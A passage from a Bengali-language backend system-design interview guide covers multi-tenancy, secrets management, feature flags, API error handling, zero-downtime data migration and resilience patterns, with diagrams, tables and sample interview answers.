- **No failure recovery plans for Projection Rebuild:** যদি কোনো কারণে রিড ডাটাবেস ডাউন বা করাপ্ট হয়ে যায়, তবে ওল্ড হিস্টোরিক্যাল রাইট ডিবি থেকে কীভাবে ডেটা পুনরায় নতুন করে রিড মডেলে বা প্রজেকশনে মার্জ ও ব্যাকফিল করা হবে (Rebuild strategy) তার কোনো স্ক্রিপ্ট রেডি না রাখা।

### Interview Angle

> "CQRS রাইট মডেল (Commands) এবং রিড মডেল (Queries) আলাদা করে ডাটাবেসের পারফরম্যান্স ও স্কেলাবিলিটি চরম লেভেলে অপটিমাইজ করে। আমরা হাই-কনকারেন্ট ডিস্ট্রিবিউটেড ট্রানজেকশনে PostgreSQL-কে রাইট এবং Elasticsearch বা MongoDB-কে রিড ও ভিউ মডেল প্রজেকশন হিসেবে ব্যবহার করি এবং এদের মাঝে CDC ইভেন্ট বাস দিয়ে ডাটা সিঙ্ক নিশ্চিত করি।"


## 55. Multi-Tenancy

### Core Idea

**Multi-Tenancy (মাল্টি-টেন্যান্সি):** হলো এমন একটি সফটওয়্যার আর্কিটেকচারাল প্যাটার্ন যেখানে একটি একক সফটওয়্যার অ্যাপ্লিকেশন ইনস্ট্যান্স একই সাথে একাধিক আলাদা আলাদা গ্রাহক বা অর্গানাইজেশনকে (যাদেরকে **Tenants** বা টেন্যান্ট বলা হয়, যেমন: Company A, Company B) সম্পূর্ণ সিকিউরডভাবে সার্ভিস প্রদান করে। এর মূল লক্ষ্য হলো সার্ভিস মেইনটেন্যান্সের কস্ট বাঁচানো কিন্তু এক টেন্যান্টের ডেটা যেন অন্য টেন্যান্ট কোনোভাবেই দেখতে বা হ্যাক করতে না পারে তা শতভাগ নিশ্চিত করা (Data Isolation).

### Multi-Tenancy DB Models (ডাটাবেস মডেলসমূহ)

```mermaid
graph TD
    subgraph Model1 [1. Shared DB, Shared Table - Database level]
        T1[Tenant A] -->|tenant_id = 1| DB1["(Shared Table: Row Isolation)"]
        T2[Tenant B] -->|tenant_id = 2| DB1
    end

    subgraph Model2 [2. Shared DB, Separate Schema - Schema Isolation]
        T1_S[Tenant A] --> DB2["(Postgres Schema: tenant_a)"]
        T2_S[Tenant B] --> DB2["(Postgres Schema: tenant_b)"]
    end

    subgraph Model3 [3. Separate DB per Tenant - Best Isolation]
        T1_D[Tenant A] --> DB_A["(Database A)"]
        T2_D[Tenant B] --> DB_B["(Database B)"]
    end
    
    style DB1 fill:#bbf,stroke:#333
    style DB2 fill:#fdb,stroke:#333
    style DB_A fill:#bfb,stroke:#333
    style DB_B fill:#bfb,stroke:#333
```

### DB Models Trade-offs Comparison

| মডেল | ১. Shared DB, Shared Table | ২. Shared DB, Separate Schema | ৩. Separate DB per Tenant |
| :--- | :--- | :--- | :--- |
| **Data Isolation** | **দুর্বল:** রিলেশনাল টেবিলে `tenant_id` কলাম ব্যবহার করে কুয়েরি ফিল্টারিং করা হয়। | **মাঝারি:** একই ডিবির ভেতর আলাদা লজিক্যাল স্কিমা থাকে। | **চরম শক্তিশালী:** সম্পূর্ণ আলাদা ফিজিক্যাল ডাটাবেস কন্টেইনার সার্ভার। |
| **অপারেশনাল খরচ** | **অত্যন্ত কম ও সস্তা:** সব ডেটা এক জায়গায় থাকে। | মাঝারি। | **অত্যন্ত ব্যয়বহুল:** প্রতি ক্লায়েন্টের জন্য আলাদা ডাটাবেস ইন্সট্যান্স। |
| **ডেটা মাইগ্রেশন** | অত্যন্ত সহজ (সিঙ্গেল রান)। | মাঝারি (প্রতি স্কিমা লুপ চালাতে হয়)। | জটিল (সব ডিবির কুয়েরি সিঙ্ক ধরে রাখা কঠিন)। |
| **অনুপাত** | SaaS প্রজেক্টের স্টার্টআপদের জন্য সেরা। | মিড-লেভেল এন্টারপ্রাইজ। | ব্যাংক, বড় কর্পোরেট বা কড়া ডাটা সিকিউরিটি কম্প্লায়েন্স ক্লায়েন্ট। |

### Senior Insight (The Zero-Trust Tenant Context Pattern)

- **Do Not Trust Frontend Tenant ID:** কখনই এপিআই কল করার সময় ফ্রন্টএন্ড থেকে পাঠানো `tenant_id` অন্ধভাবে বিশ্বাস করে কোয়েরি চালাবেন না (হ্যাকার আইডি এডিট করে অন্য কোম্পানির ডেটা দেখতে পারে)।
- **সিনিয়র আর্কিটেকচার সলিউশন:**
  ইউজার যখন লগইন করবে, তার **JWT Token** বা সেশনের ভেতরের কড়া এনক্রিপ্টেড ও সিকিউরড পেলোডের মধ্যে তার ভ্যালিডেটেড `tenant_id` ম্যাপ করে রাখতে হবে। ব্যাকএন্ড কন্ট্রোলারের একটি **Middlewares/Interceptors** বসাতে হবে যা প্রতিটা ইনকামিং এপিআই থ্রেডে ইউজারের টোকেন থেকে টেন্যান্ট আইডি এক্সট্রাক্ট করে গ্লোবাল কনটেক্সটে (using Node.js `AsyncLocalStorage` or Go `context`) স্টোর করে। কোডের ডেটাবেস কুয়েরি রান হওয়ার সময় অটোমেটিক ওই কনটেক্সট থেকে আইডি নিয়ে কড়া ফিল্টারিং `tenant_id` যুক্ত কুয়েরি চালাবে।

### Common Mistakes

- **SQL Injection or Missing Tenant Filter:** কোনো কারণে কুয়েরিতে `WHERE tenant_id = x` লিখতে ভুলে যাওয়া। এর ফলে সম্পূর্ণ অন্য অর্গানাইজেশনের কাস্টমারদের লিস্ট ইন্টারনেটে লিক হয়ে যাবে, যা কোম্পানির সবচেয়ে বড় সিকিউরিটি ট্র্যাজেডি।
- **Sharing Cache without Prefix:** রেডিস ক্যাশ (Redis Cache) কি ম্যাপ করার সময় টেন্যান্ট আইডি প্রিফিক্স না রাখা (যেমন: শুধু `user:45` দিয়ে ক্যাশ করা)। এতে কোম্পানি A-এর ইউজার ৪২ ক্যাশ থেকে রিড হয়ে কোম্পানি B-এর স্ক্রিনে চলে যেতে পারে। ক্যাশ কি হতে হবে: `tenant_A:user:45`.

### Interview Angle

> "মাল্টি-টেন্যান্সিতে ডেটা আইসোলেশন ও অপারেশনাল কস্টের মধ্যে ট্রেড-অফ করে মডেল চুজ করতে হয়। আমরা সাশ্রয়ী SaaS প্রজেক্টের জন্য Shared Schema উইথ Row-level Security এবং অতি সংবেদনশীল বিজনেসের জন্য Separate Database per Tenant ব্যবহার করি। আমরা সিকিউরিটির জন্য এপিআই লেভেলে AsyncLocalStorage দিয়ে গ্লোবাল টেন্যান্ট কনটেক্সট ফিল্টার রান করি এবং রেডিস ক্যাশে টেন্যান্ট আইডি প্রিফিক্স করা বাধ্যতামূলক রাখি।"


## 56. Secrets Management

### Core Idea

**Secrets Management (সিক্রেটস ম্যানেজমেন্ট):** সফটওয়্যার ডেভেলপমেন্ট ও আর্কিটেকচারে **Secrets** বলতে এমন সমস্ত অত্যন্ত সংবেদনশীল ক্রেডেনশিয়াল ও সিক্রেট ডেটাকে বোঝায় যা লিক হলে সম্পূর্ণ সিস্টেম হ্যাক হতে পারে (যেমন: Database Passwords, API Keys, JWT Encryption Secrets, SSL Keys, OAuth credentials)। সিক্রেটস ম্যানেজমেন্ট হলো এমন একটি সুনির্দিষ্ট ও সুরক্ষিত আর্কিটেকচারাল প্রক্রিয়া যা কোড থেকে সিক্রেট কিগুলোকে দূরে রেখে রানটাইমে সেন্ট্রাল ভল্ট থেকে ডেটা এনে এপিআই সিকিউরিটি নিশ্চিত করে।

### Secrets Ingestion Flow: Development vs Production

```mermaid
flowchart LR
    subgraph Dev [Development Environment]
        LocalEnv[.env file - gitignored] --> Node[Node.js / App Process]
    end

    subgraph Prod [Production Environment - High Secure]
        AppNode[App Container Node] -->|1. Request Credentials| Vault["(HashiCorp Vault / Cloud Secret Manager)"]
        Vault -->|2. Ingest Decrypted Keys in RAM memory| AppNode
    end
    
    style Vault fill:#fbb,stroke:#333
```

### Secrets Management Best Practices

1. **Never Commit Secrets to Git:** আপনার লোকাল `.env` ফাইলটি অবশ্যই গিটের কনফিগারেশনে `.gitignore` ফাইলের ভেতর লক করে রাখতে হবে। প্রোডাকশনের কোনো ক্রেডেনশিয়াল কখনই গিটহাবে পুশ হতে দেওয়া যাবে না।
2. **Environment Isolation:** লোকাল ডেভেলপমেন্ট, স্টেজিং এবং প্রোডাকশন এনভায়রনমেন্টের সিক্রেট কি এবং ডাটাবেস পাসওয়ার্ড সম্পূর্ণ আলাদা ও স্বাধীন হতে হবে।
3. **Use Dedicated Secrets Managers:** হাই-স্কেল প্রোডাকশন সিস্টেমে ডাটাবেস পাসওয়ার্ড বা এপিআই কি সরাসরি ডকার বা এনভায়রনমেন্ট ফাইলে হার্ডকোড করার চেয়ে ক্লাউড প্রভিশনড সিক্রেট স্টোর ম্যানেজার (যেমন: **HashiCorp Vault**, **AWS Secrets Manager**, **GCP Secret Manager**) ব্যবহার করা বেস্ট প্র্যাকটিস। কন্টেইনার বুট হওয়ার সময় রানটাইমে সিক্রেট ম্যানেজার এপিআই কল করে ডিক্রিপ্ট করা কিগুলো শুধুমাত্র র্যামের (RAM Memory) মেমরিতে ইনজেক্ট করা হয়।

### Senior Insight (Automatic Secrets Rotation)

- **Secret Rotation & Blast Radius Reduction:** যদি কোনো কারণে একটি এপিআই কি বা ডাটাবেস পাসওয়ার্ড হ্যাকারদের কাছে লিক হয়ে যায়, তবে সেই ড্যামেজের গভীরতা বা **Blast Radius** কমাতে ব্যাকএন্ড আর্কিটেকচারে প্রতি ৩০ দিনে পাসওয়ার্ড বা কি অটো-রোটেট (Secrets Rotation) করার সিডিউল স্ক্রিপ্ট থাকতে হবে।
- **JWT asymmetric Key pair:** ক্যাশ ভ্যালিডেশনে জেডব্লিউটি ভেরিফাই করতে একটি সিমেট্রিক স্ট্যাটিক কি ব্যবহার করার চেয়ে আরএসএ প্রাইভেট/পাবলিক কি পেয়ার (**Asymmetric RS256**) ব্যবহার করা অনেক বেশি নিরাপদ। পাবলিক কি এপিআই গেটওয়েতে রাখলেই রিড করা যায়, ফলে প্রাইভেট কি ব্যাকএন্ডের সিক্রেট সার্ভার থেকে বাইরে এক্সপোজ হওয়ার কোনো সুযোগ থাকে না।

### Common Mistakes

- **Accidentally pushing `.env` file to Public GitHub repository:** ভুল করে গিটহাবে কী ফাইল পুশ করা। এর ফলে হ্যাক রোবট বটসরা ১ সেকেন্ডের ভেতর সিক্রেট ডিটেক্ট করে AWS বিল হাজার ডলারে নিয়ে যেতে পারে বা ডিবি মুছে ফেলে র্যানসমওয়্যার ডিমান্ড করতে পারে।
- **Logging secrets inside error stacks or logs:** কোডে ট্রাই-ক্যাশ এরর প্রিন্ট করার সময় ভুল করে সম্পূর্ণ কানেকশন স্ট্রিং পাসওয়ার্ড সহ লগে প্রিন্ট করে ফেলা।

### Interview Angle

> "সিক্রেট ম্যানেজমেন্টের মূল রুল হলো 'Zero Hardcoded Secrets'। আমরা সিআই/সিডি এবং প্রোডাকশন রানটাইমে এনভায়রনমেন্ট ফাইল বা ডকার লেভেলে সিক্রেট কি রাখার পরিবর্তে AWS Secrets Manager বা HashiCorp Vault থেকে রানটাইমে মেমরিতে ক্রেডেনশিয়াল ইনজেক্ট করি। এছাড়া অ্যাসিমেট্রিক JWT সায়নিং এবং সিক্রেট কি রেগুলার রোটেট করার স্ট্র্যাটেজি আর্কিটেক্ট করি।"


## 57. Feature Flags

### Core Idea

**Feature Flags (ফিচার ফ্ল্যাগস / Feature Toggles):** হলো এমন একটি অ্যাডভান্সড ডিপ্লয়মেন্ট প্যাটার্ন যার মাধ্যমে আমরা কোনো ফিচারের সোর্স কোড প্রোডাকশন সার্ভারে ডিপ্লয় বা ডেভেরি করা সত্ত্বেও ইউজারের কাছে ফিচারটি দৃশ্যমান বা রিলিজ হবে কিনা তা একটি ডাইনামিক রিমোট কন্ট্রোল ড্যাশবোর্ড থেকে এক ক্লিকে রুলস নির্ধারণ বা অন/অফ করতে পারি। এর মূল ফিলোসফি হলো: **"সফটওয়্যার ডিপ্লয়মেন্ট (Code Deploy) এবং ফিচার রিলিজ (Feature Release) সম্পূর্ণ দুটি আলাদা বিষয়।"**

### Separation of Concerns: Deploy vs Release

```mermaid
flowchart TD
    Deploy[Step 1: Deploy App V2 to Production] --> StateClosed[Feature Flag: OFF - v2 code is sleeping in prod]
    StateClosed --> Decision{Should we launch feature?}
    Decision -- Yes: Control Panel Switch --> Release[Step 2: Turn Flag ON - v2 feature goes live instantly!]
    Decision -- No / Emergency Bug --> Rollback[Step 3: Turn Flag OFF - Instant Zero-Downtime Rollback]
    
    style StateClosed fill:#fbb,stroke:#333
    style Release fill:#bfb,stroke:#333
    style Rollback fill:#fdb,stroke:#333
```

### Feature Flags Key Use Cases

1. **Instant Rollback (Kill Switch):** ধরুন, নতুন একটি ফিচার ডিপ্লয় করার পর প্রোডাকশনে হঠাৎ দেখা গেল কিছু ইউজারের ব্রাউজার ক্র্যাশ করছে বা ডাটাবেস এরর দিচ্ছে। ফ্ল্যাগ ছাড়া কোড ঠিক করতে আবার নতুন বিল্ড ও রি-ডিপ্লয় করতে ৩০ মিনিট লাগবে। আর ফিচার ফ্ল্যাগ অন থাকলে আপনি জাস্ট ১ সেকেন্ডে ড্যাশবোর্ড থেকে ফ্ল্যাগটি `OFF` করে দিবেন। সিস্টেম সাথে সাথে ওল্ড স্টেবল কোডে রোলব্যাক হয়ে যাবে!
2. **Canary / Gradual Rollout:** নতুন একটি চমৎকার ফিচার সরাসরি ১০০% ইউজারকে একসাথে না দিয়ে শুরুতে মাত্র ৫% ইউজারকে দেওয়া হলো। যদি এপিএম ড্যাশবোর্ডে এরর রেট না বাড়ে, তবে আস্তে আস্তে ২০%, ৫০% এবং পরিশেষে সব ইউজারকে ফিচারটি অন করে দেওয়া।
3. **A/B Testing:** ৫০% কাস্টমারকে অপশন A এবং ৫০% কাস্টমারকে নতুন অপশন B ড্যাশবোর্ড স্ক্রিন দেখিয়ে কনভার্সন রেট ট্র্যাকিং করা।

### Senior Insight (Mitigating Technical Debt)

ফিচার ফ্ল্যাগ সিস্টেমকে ফ্লেক্সিবল করলেও কোডে অতিরিক্ত FEATURE_FLAG চেক দীর্ঘমেয়াদে হিউজ **Technical Debt** (কারিগরি ঋণ) তৈরি করে। কোডে যদি ৫০টি ওল্ড ফ্ল্যাগের ইফ-এলস কন্ডিশন জমে থাকে, তবে কোড রিড করা এবং টেস্ট কেস মেনটেইন করা দুঃস্বপ্নে পরিণত হবে।
- **সিনিয়র পলিসি (Flag Lifecycle Management):**
  একটি ফিচারের ১০০% ক্যানারি বা রোলআউট সাকসেসফুলি শেষ হওয়ার সর্বোচ্চ ২ সপ্তাহের মধ্যে ব্যাকলগ টিকিট তৈরি করে কোড থেকে ওই ফিচার ফ্ল্যাগের সমস্ত ওল্ড `if-else` কন্ডিশন মুছে ফেলে ক্লিন রিফ্যাক্টর করে ফেলা বাধ্যতামূলক। ফিচার ফ্ল্যাগকে কোডে চিরস্থায়ী হতে দেওয়া যাবে না।

### Common Mistakes

- **Keeping unused/dead flags in code for months:** কোডে ওল্ড কোড কন্ডিশন ক্লিন না করে ফেলে রাখা।
- **Flag status caching issues:** ফিচার ফ্ল্যাগের স্ট্যাটাস রেসপন্স এপিআই সার্ভারে গ্লোবাল ভ্যারিয়েবলে আনলিমিটেড টাইমের জন্য ক্যাশ করে রাখা, যার ফলে রিমোট ড্যাশবোর্ড থেকে ফ্ল্যাগ অফ করলেও কোড স্ট্যাটাস চেঞ্জ হতে কয়েক ঘণ্টা সময় নিয়ে নেয়। ক্যাশ লাইফটাইম (TTL) অত্যন্ত কম হতে হবে।

### Interview Angle

> "ফিচার ফ্ল্যাগ কোড ডিপ্লয়মেন্ট এবং কাস্টমার রিলিজকে ডিকাপল করে প্রোডাকশন সেফটি বহুগুণ বাড়িয়ে দেয়। আমরা এটি ব্যবহার করে জিরো-ডাউনটাইম ইনস্ট্যান্ট কিল সুইচ, গ্র্যাজুয়াল ক্যানারি রোলআউট ও এবি টেস্টিং নিশ্চিত করি। তবে ফিচার ফ্ল্যাগের টেকনিক্যাল ডেট এড়াতে আমরা কড়া লাইফসাইকেল পলিসি মেনে চলি এবং সাকসেসফুল রিলিজের পর কোড রিফ্যাক্টর করে ওল্ড ফ্ল্যাগ ডিলিট করি।"


## 58. API Error Handling & Status Codes

### Core Idea

**API Error Handling & Status Codes:** ব্যাকএন্ড এপিআই ডিজাইনের অন্যতম বড় প্রফেশনাল মানদণ্ড হলো সিস্টেমের এরর হ্যান্ডলিং ও রেসপন্স ডিজাইন। একটি আর্কিটেকচারালি উন্নত এপিআই এরর রেসপন্স সবসময় তিনটি রুলস মেনে চলে: **১. Predictable (পূর্বাভাসযোগ্য), ২. Actionable (সহজে সমাধানযোগ্য), এবং ৩. Safe (নিরাপদ)।** ভুলবশত কোনো এরর ঘটলে বা ইনপুট ভুল হলে এপিআই যেন র্যান্ডম ক্র্যাশ না করে সঠিক এইচটিএমএল স্ট্যাটাস কোড এবং ডাউন্সট্রিম ক্লায়েন্টের বোঝার মতো একটি সুন্দর ও নিখুঁত জেসন খাম (JSON envelope) রিটার্ন করে।

### Standard API Error Shape

একটি প্রফেশনাল এবং স্ট্যান্ডার্ড এপিআই এরর জেসন খামের ফরম্যাট কেমন হওয়া উচিত:
```json
{
  "error": {
    "code": "INVALID_INPUT_PARAMETERS",
    "message": "The request payload contains semantically invalid values.",
    "details": [
      {
        "field": "email",
        "message": "Email must be a valid RFC 5322 address."
      }
    ],
    "requestId": "req-9a8b7c-102"
  }
}
```

### Core API Status Codes Guidelines

| HTTP Status Code | প্রফেশনাল ব্যবহারের ক্ষেত্রে (Guidelines) |
| :--- | :--- |
| **`200 OK`** | সাকসেসফুল ডেটা রিড (SELECT) বা রিসোর্স আপডেট (PUT/PATCH)। |
| **`201 Created`** | নতুন কোনো রিসোর্স সাকসেসফুলি ডাটাবেসে ইনসার্ট বা ক্রিয়েট হলে (POST)। |
| **`202 Accepted`** | অ্যাসিনক্রোনাস কাজ শুরু হয়েছে কিন্তু প্রসেস ফিনিশ হতে সময় লাগবে (Queue)। |
| **`400 Bad Request`** | ক্লায়েন্টের পাঠানো কুয়েরি বা জেসন পেলোড স্ট্রাকচারাল বা সিনট্যাক্স ভুল হলে। |
| **`401 Unauthorized`** | রিকোয়েস্টে কোনো ভ্যালিড অথেনটিকেশন টোকেন না থাকলে বা সেশন ডেড হলে। |
| **`403 Forbidden`** | ইউজার লগইন আছে, কিন্তু তার রোল ওই স্পেসিফিক ফিচার বা রাউট অ্যাক্সেস করার অনুমতি দেয় না। |
| **`409 Conflict`** | ডাটাবেস স্টেটের সাথে কনফ্লিক্ট হলে (যেমন: ইমেইল অলরেডি এক্সিস্ট বা ডাবল সাবমিট)। |
| **`422 Unprocessable`** | জেসন বডির সিনট্যাক্স ঠিক আছে, কিন্তু বিজনেস ভ্যালিডেশন রুলস ফেইল করেছে (Zod error). |
| **`429 Too Many Requests`** | রেট লিমিট অতিক্রম করলে। |
| **`500 Internal Error`** | সার্ভারের কোড ক্র্যাশ করলে বা ডাটাবেস ডাউন হয়ে আনএক্সপেক্টেড কোনো গ্লিচ ঘটলে। |

### Global Exception Interception Design

```mermaid
graph TD
    API[Incoming Client Request] --> Controller[API Controller]
    Controller -->|Try-Catch Block / Middleware| Interceptor[Global Exception Filter / Interceptor]
    Interceptor --> Log[1. Log full Stack Trace internally to CloudWatch with Request ID]
    Interceptor --> Sanitize[2. Remove Raw Database Query / Stack trace information]
    Interceptor --> Respond[3. Return Safe Standardized JSON to client with HTTP 500 & Request ID]
    
    style Interceptor fill:#fbb,stroke:#333
```

### Senior Insight

- **Never Leak Stack Traces to Client:** সার্ভারে কোনো ক্যাচ এরর ঘটলে এপিআই রেসপন্সে কখনই ডাটাবেসের কুয়েরি বা কোডের র ফাইল পাথ লাইন নাম্বার ক্লায়েন্টকে পাঠানো যাবে না। এটি হ্যাকারদের এপিআই হ্যাক করার পথ সহজ করে দেয়।
- **Request ID / Correlation ID for Debugging:** ক্লায়েন্টকে শুধু একটি সেফ এরর মেসেজ ("Something went wrong") দিন এবং সাথে একটি ইউনিক `requestId` বা `correlationId` রিটার্ন করুন। ডেভেলপাররা ক্লাউডওয়াচ বা গ্রাফানায় ওই আইডি লিখে সার্চ করলেই ইন্টারনাল রিয়েল এরর স্ট্যাকটি ডিবাগ করে ফেলতে পারবে।

### Common Mistakes

- **Returning `200 OK` with `{ "success": false, "error": "msg" }`:** এটি এইচটিটিপি প্রোটোকলের অবমাননা। ক্লায়েন্টের কুয়েরি ফেইল করলে অবশ্যই ৪xx বা ৫xx রেঞ্জ ব্যবহার করতে হবে, কখনই ২০০ ওকে দিয়ে ফেইল রেসপন্স পাঠানো উচিত নয়।
- **Confusing 401 Unauthorized vs 403 Forbidden:** ওল্ড ডেভেলপাররা প্রায়ই এ দুটি গুলিয়ে ফেলেন। মনে রাখতে হবে: **401 means AuthN (Who are you? I don't know). 403 means AuthZ (I know who you are, but you don't have permission).**

### Interview Angle

> "প্রফেশনাল এপিআই ডিজাইনে আমরা এপিআই এররগুলোকে Predictable, Actionable, এবং Safe রাখতে একটি গ্লোবাল Exception Filter/Middleware ডিজাইন করি। আমরা ইনপুট ভ্যালিডেশনের জন্য ৪২২, অথের জন্য ৪০১/৪০৩ এবং ডাটাবেস এররের জন্য ৫০০ উইথ ইউনিক Request ID রিটার্ন করি এবং এপিআই রেসপন্সে কখনও ইন্টারনাল স্ট্যাক ট্রেস লিক হতে দিই না।"


## 59. Data Migration & Backward Compatibility

### Core Idea

প্রোডাকশন এনভায়রনমেন্টে লাইভ রানিং অ্যাপ্লিকেশনের ডাটাবেস স্কিমা চেঞ্জ বা কলাম রিনেম করার সময় কোনো ডাউনটাইম বা এরর ছাড়া ডেটা ট্রান্সফার করার প্রক্রিয়াকে ব্যাকওয়ার্ড-কম্প্যাটিবল ডাটা মাইগ্রেশন (Backward-Compatible Data Migration) বলা হয়। এর মূল কথা হলো: **"ডাটাবেস আপডেট হবে, ইউজাররা টের পাবে না এবং সিস্টেমের পুরনো রানিং কোড ভেঙে যাবে না।"**

### Safe Migration Pattern (Expand and Contract / Parallel Run)

ধরুন, আমাদের `users` টেবিলে `name` কলাম আছে। আমরা এটিকে ভেঙে `first_name` এবং `last_name` করতে চাই। সরাসরি `name` ড্রপ করে দিলে চলমান ওল্ড সার্ভিস ভার্সন ক্র্যাশ করবে।
নিচে **Expand and Contract** প্যাটার্নের মাধ্যমে সেফ মাইগ্রেশন ফ্লো দেখানো হলো:

```mermaid
flowchart TD
    State1[1. Initial State: users.name only] --> State2[2. Expand DB: Add new nullable columns first_name & last_name]
    State2 --> State3[3. Dual Writes: Deploy App V2 that writes to BOTH name and first/last_name]
    State3 --> State4[4. Backfill: Run background batch job to copy historical data to new columns]
    State4 --> State5[5. Switch Reads: Update App V3 to read exclusively from first_name & last_name]
    State5 --> State6[6. Contract DB: Stop writes to name column & Drop users.name from DB]
```

#### ধাপসমূহ:

1. **Step 1: Expand (ডাটাবেস বড় করা)**
   ডাটাবেসে নতুন কলামগুলো (`first_name`, `last_name`) যোগ করুন এবং সেগুলোকে অবশ্যই **Nullable** রাখুন। (পুরনো কোড এখনো আগের মতোই `name` কলাম ব্যবহার করে সচল আছে)।
2. **Step 2: Dual Write (দুই জায়গায় রাইট করা)**
   অ্যাপ্লিকেশনের নতুন ভার্সন ডেপ্লয় দিন যা নতুন আগত ডেটাগুলো একই সাথে পুরনো `name` কলামেও লিখবে, আবার ভাঙা অংশগুলো নতুন কলামেও সেভ করবে। এতে নতুন ডেটাগুলো দুই সিস্টেমেই ইন-সিঙ্ক থাকছে।
3. **Step 3: Backfill Historical Data (পুরনো ডাটা ব্যাকফিল করা)**
   একটি ব্যাকগ্রাউন্ড স্ক্রিপ্ট বা ক্রন জব (যেমন NestJS-এ BullMQ ব্যাচিং দিয়ে) চালিয়ে ডাটাবেসে থাকা পুরনো সব ইউজারদের `name` থেকে ডেটা নিয়ে নতুন কলামগুলোতে কপি করুন।
   - **সিনিয়র পলিসি:** বড় টেবিলে মাইগ্রেশন একবারে রান করলে টেবিল লক হয়ে প্রোডাকশন ডাউন হতে পারে। তাই মাইগ্রেশন করতে হবে **Batching** করে (যেমন একবারে ১০০০ রো আপডেট করে ৫০ মিলি-সেকেন্ড স্লিপ দেওয়া)।
4. **Step 4: Switch Reads (রিড চেঞ্জ করা)**
   অ্যাপ আপডেট করে রিড কুয়েরিগুলো নতুন কলামে শিফট করুন।
5. **Step 5: Contract (ডাটাবেস ছোট করা - ছাঁটাই)**
   সব ঠিক থাকলে এবং ওল্ড কোডের কোনো কানেকশন না থাকলে, কোড থেকে ওল্ড কলামে রাইট করা বন্ধ করুন এবং ফাইনালি ডাটাবেস থেকে ওল্ড `name` কলামটি ড্রপ করে দিন।

### Senior Insight

- **Zero-Downtime Column Renaming:** কোনো কলামের নাম সরাসরি চেঞ্জ করা সম্পূর্ণ নিষেধ। এটি করতে গেলে অবশ্যই Expand & Contract প্যাটার্ন ফলো করতে হবে।
- **Avoid Lock-heavy Migrations:** PostgreSQL-এ কলাম অ্যাড করার সময় ডিফল্ট ভ্যালু দিলে পুরো টেবিল লক হয়ে যায়। তাই কলামNullable রাখা উচিত অথবা মডার্ন ডিবি ভার্সনে ডিফল্ট ভ্যালু ইনসার্ট লকের প্রভাব বিশ্লেষণ করে মাইগ্রেশন কোড লিখতে হবে।
- **Rollback Strategy:** প্রতিটি মাইগ্রেশনের জন্য একটি সুনির্দিষ্ট **Rollback Script (Down migration)** প্রস্তুত থাকতে হবে, যাতে নতুন মাইগ্রেশনে প্রোডাকশনে কোনো বাগ ধরা পড়লে সাথে সাথে আগের স্কিমায় সেফলি ব্যাক করা যায়।

### Common Mistakes

- **Renaming columns directly in a single release:** এর ফলে নতুন কোড ডেপ্লয়মেন্টের ওই কয়েক সেকেন্ড বা মিনিটে পুরনো রানিং কলাম না পেয়ে ইউজারদের এপিআই ফেইলিউর (500 Internal Error) দিবে।
- **Backfilling large tables without batching:** লাখ লাখ ডাটার টেবিলে ব্যাকফিল স্ক্রিপ্ট একবারে মারলে ডাটাবেসের লক টেবিল ফুল হয়ে প্রোডাকশন ডাউনটাইম হবে।

### Interview Angle

> "লাইভ সিস্টেমে জিরো-ডাউনটাইম ডেটা মাইগ্রেশনের জন্য আমরা Expand and Contract (Parallel Run) প্যাটার্ন ব্যবহার করি। আমরা ডাটাবেসে নতুন কলাম অ্যাড করে ডুয়াল রাইট চালু করি, ব্যাকগ্রাউন্ড ব্যাচিংয়ের মাধ্যমে ডেটা ব্যাকফিল করি, রিড শিফট করি এবং পরিশেষে পুরনো কলাম ড্রপ করি। এতে মাইগ্রেশন সেফ থাকে এবং যেকোনো সময় সেফ রোলব্যাক করা যায়।"


## 60. Resilience & Graceful Degradation

### Core Idea

- **Resilience (স্থিতিস্থাপকতা):** হলো সিস্টেমের এমন একটি ক্ষমতা যার মাধ্যমে সে যেকোনো ধরনের আংশিক নেটওয়ার্ক ফেইলিউর, ডাটাবেস ডাউন বা এরর সামলে নিয়ে পুনরায় সুস্থ স্বাভাবিক অবস্থায় ফিরে আসতে পারে (যেমন: রিট্রাই, কুয়িং)।
- **Graceful Degradation (সুচারুভাবে মানিয়ে নেওয়া):** যদি কোনো একটি বা একাধিক অ-গুরুত্বপূর্ণ সার্ভিস (Non-critical dependencies) সম্পূর্ণ ডেড হয়ে যায়, তবুও পুরো অ্যাপ্লিকেশন বন্ধ (Crash) না করে আংশিক ফাংশনালিটি সচল রাখা।

### Graceful Degradation (ফলব্যাক মেকানিজম ভিজ্যুয়ালাইজেশন)

একটি ই-কমার্স অ্যাপ্লিকেশনের রেকমেন্ডেশন সার্ভিস ফেইল করার সময় ফলব্যাক রাউটিং:

```mermaid
flowchart TD
    Req[Get Homepage Request] --> CallRec[1. Call Recommendation Microservice]
    CallRec -- Success --> RenderRec[Render Personalized Recommendations]
    CallRec -- FAILURE / Timeout --> CB[2. Circuit Breaker Trips]
    CB --> Fallback[3. Trigger Fallback: Fetch Top 5 Popular Items from DB Cache]
    Fallback --> RenderPop[Render Common Popular Items]
    
    style RenderRec fill:#bfb,stroke:#333
    style RenderPop fill:#fcf,stroke:#333
```

### প্রধান রেজিলিয়েন্স টেকনিকসমূহ

1. **Timeouts:** কোনো নেটওয়ার্ক কলের জন্য অনন্তকাল অপেক্ষা না করে নির্দিষ্ট সময় (যেমন ২ সেকেন্ড) পর কানেকশন ডিসকানেক্ট করা যাতে সিস্টেমের মেমোরি ও থ্রেড জ্যাম না হয়।
2. **Circuit Breakers:** বারবার ফেইল হতে থাকা ডিপেন্ডেন্সিতে রিকোয়েস্ট পাঠানো বন্ধ করে দিয়ে ক্লায়েন্টকে ইনস্ট্যান্ট ফলব্যাক রেসপন্স দেওয়া।
3. **Rate Limiting & Load Shedding:** অতিরিক্ত ট্রাফিকের সময় সিস্টেমে নতুন রিকোয়েস্ট এক্সেপ্ট না করে ড্রপ বা কিউতে রাখা যাতে কোর রিসোর্স ক্র্যাশ না করে।
4. **Bulkhead Isolation:** জাহাজের ভেতরের কুঠুরির মতো অ্যাপের বিভিন্ন সার্ভিস রিসোর্স পুল (যেমন থ্রেড পুল) আলাদা রাখা, যাতে ইমেইল মডিউলের এররের কারণে পেমেন্ট মডিউলের প্রসেসিং থ্রেড আটকে না যায়।
5. **Queue Buffering:** হাই-রাইট ট্রাফিকের সময় সরাসরি ডাটাবেসে হিট না করে মেসেজ কিউতে (RabbitMQ/BullMQ) ডেটা জমিয়ে রেখে কনজিউমারের সাধ্যমতো গতিতে প্রসেস করা (Load Leveling).

### Senior Insight

- **Classify Dependencies (Critical vs Non-critical):** আর্কিটেক্ট হিসেবে সিস্টেমের প্রতিটি থার্ড-পার্টি ও ডাউন্সট্রিম ডিপেন্ডেন্সিকে ক্লাসিফাই করতে হবে।
